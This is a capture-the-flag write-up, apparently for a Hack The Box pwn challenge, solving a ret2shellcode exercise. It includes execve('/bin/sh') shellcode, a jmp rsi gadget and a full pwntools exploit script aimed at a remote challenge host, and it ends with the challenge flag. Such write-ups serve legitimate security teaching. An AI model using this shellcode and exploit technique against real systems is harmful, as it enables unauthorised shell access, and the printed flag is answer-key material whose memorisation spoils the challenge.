 # Assemblers Avenge

> Write-up author: jon-brandy

![image](https://github.com/user-attachments/assets/54ad889e-0ed2-4f15-892d-06264bd8d2ad)

# Lessons Learned:
- ret2shellcode.
- create custom shellcode.
- utilize `/bin/sh` strings printed.

## DESCRIPTION:

<p align="justify">Amidst the harrowing conflict, our city bore the brunt of relentless onslaughts, witnessing widespread devastation that spared little, ravaging both infrastructure and spirit alike. Now, as the dust settles and the echoes of chaos fade, a clarion call emerges: assemble a force to restore justice and herald a new era of tranquility. With the remnants of our past preserved within this binary, embark on your mission to reclaim our future. </p>

## STEPS:
1. In this challenge we are given a 64 bit binary, statically linked, and not stripped.

![image](https://github.com/user-attachments/assets/53c72f0e-8586-4923-af2b-b6011344c919)


> BINARY PROTECTIONS

![image](https://github.com/user-attachments/assets/a508e2de-1f69-414d-a4cc-b13c2bf9507b)

2. Since it is statically linked, hence the binary does not rely on external shared libraries during runtime.
3. Also notice that all the binary mitigations are off, should be easy to pwn then.
4. Decompiled the binary at ghidra and reviewed the entry, we identified three functions called, those are **_write**, **_read**, and **_exit**.

> Ghidra

![image](https://github.com/user-attachments/assets/ea12e6ab-34cd-4cb8-9c87-c96044d2dad6)

5. Reviewing the **_write** call operations, we can see what message shall be printed.

![image](https://github.com/user-attachments/assets/4a9f1b9b-20f9-48ca-b43c-55fd5015e433)

![image](https://github.com/user-attachments/assets/a4701a42-c92e-4835-9f2b-3ad25f351647)


6. Reviewing the **_read** function call, we can identify the buffer size (**_nbytes**) is 24 bytes.

![image](https://github.com/user-attachments/assets/c0755bb1-2273-42d5-9747-a7dd75d22908)

7. If you noticed, our input shall stored at RSI at this function call, which gave us a hint to utilize `jmp` instruction to rsi if we use shellcode approach.

![image](https://github.com/user-attachments/assets/60b96fbe-e6ec-4883-a53b-43c96f5d3d8f)


8. For the **_exit** function call, it just printed the goodbye message then terminate the binary.

![image](https://github.com/user-attachments/assets/10dea23c-941e-4467-8e4b-79c40bff5c82)


9. Since NX is disabled, hence let's use shellcode approach. Remembering the buffer size is 24 bytes, hence our shellcode should be at 16 bytes and the rest 8 bytes should be enough for our gadget.

> JMP RSI GADGET

![image](https://github.com/user-attachments/assets/be21d4ec-103b-446e-bb89-97233a0c77bf)

10. No need to worry about the **/bin/sh** strings, because it is printed by the binary itself and there is an interesting way to grab the strings and use it for our shellcode.

> THE PRINTED STRINGS

![image](https://github.com/user-attachments/assets/634ae450-c0a6-4a31-b83c-c34149eceac4)


11. Based on ghidra, the offset should be at `0x4020..`.

![image](https://github.com/user-attachments/assets/75900b8b-acb3-4673-ae21-db78d610a52f)

12. To identify the LSB, I used **hexdump**, then look for hex representations of **/bin/sh** strings.

``` console
┌──(scorch㉿petir)-[~]
└─$ echo "/bin/sh" | xxd -p      
2f62696e2f73680a
```

![image](https://github.com/user-attachments/assets/0345d2ee-b483-4416-91f5-d5be6b067912)


13. Great! Now let's craft our shellcode.

```asm
mov    rdi,0x402065
xor    esi,esi
xor    edx,edx
push   0x3b
pop    rax
syscall
```

#### NOTE:

```
To set zero for RSI and RDX can utilize xoring esi and edx. Because
in 64-bit mode, writing to the lower 32 bits clears the upper 32 bits
of the full 64-bit register.

Thus xor esi achieves the same effect as xor rsi. Note that using 32 bit register
is to shorten the shellcode size.
```

![image](https://github.com/user-attachments/assets/c0d89404-9edc-4d95-afde-64210500dd1f)


14. Awesome! The size is exact enough.

> FULL EXPLOIT SCRIPT

```py
from pwn import *

exe = './assemblers_avenge'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

HOST = '94.237.62.3'
IP = 46619
sh = remote(HOST, IP)
# sh = process(exe)

sc = """
mov    rdi,0x402065
xor    esi,esi
xor    edx,edx
push   0x3b
pop    rax
syscall
"""

log.success(f'Size: {len(asm(sc))}')

rop = ROP(elf)
p = flat([
    asm(sc), # shellcode 
    0x000000000040106b # jmp rsi gadget
])

sh.sendline(p)
sh.interactive()
```

![image](https://github.com/user-attachments/assets/bbd6df21-26bf-4a1a-9aee-e7d6b54497ea)


15 Got the flag! We've pwned it.

## FLAG

```
HTB{y0ur_l0c4l_4553mbl3R5_4v3ng3d_0n_t1m3}
```
